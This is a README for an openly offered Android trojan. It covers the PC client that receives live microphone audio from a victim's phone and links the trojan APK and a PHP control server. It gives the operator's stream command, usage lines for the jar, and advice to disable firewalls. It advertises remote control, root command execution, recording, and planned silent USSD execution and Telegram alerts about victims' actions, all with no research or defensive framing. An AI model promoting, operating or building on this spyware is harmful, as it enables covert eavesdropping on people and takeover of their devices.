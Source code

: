 # Android Trojan (Built with Android SDK 22) source code
The main manual is here: https://github.com/androidtrojan1/android-trojan-service-
UPD. 11.02.2016 Version 1.2 released!

DESCRIPTION:



This is the source of executable .jar file that is used for recieving of sound stream from the mic of the victim's device in real time.
First you need to execute the command "stream [your_ip_address] [your_desired_listening_port]" and if it started it will show you
the neccessary buffer size and port that you should pass as argument.

Example of usage: 
java -jar streamer.jar bufsize port
for instance (java - jar streamer.jar 8192 31337)

IMPORTANT!!!
Dont forget to sey up firewall rule or just completely disable it for a while (the UDP port will be used for listening)
And you will also need to set up IP forwarding if you are bihind a firewall. 

HERE ARE LINKS TO THE OTHER COMPONENTS:

trojan service apk: https://github.com/androidtrojan1/android-trojan-service-

mic streamer pc client: https://github.com/androidtrojan1/android-trojan-streamer

trojan php server part: https://github.com/androidtrojan1/android-trojan-php-server



Android trojan with abilities of remote control,root commands execution, recording and online sound streaming

Compatible with all Android from Gingerbread (API 10) up to Lollipop (API 22)





have fun!

Upd. 11.09.2016  New Update is coming. New features in the upcoming version:
*  Telegram real-time notifications about victim's actions
*  silent execution of ussd codes
*  more interesting root features ^^
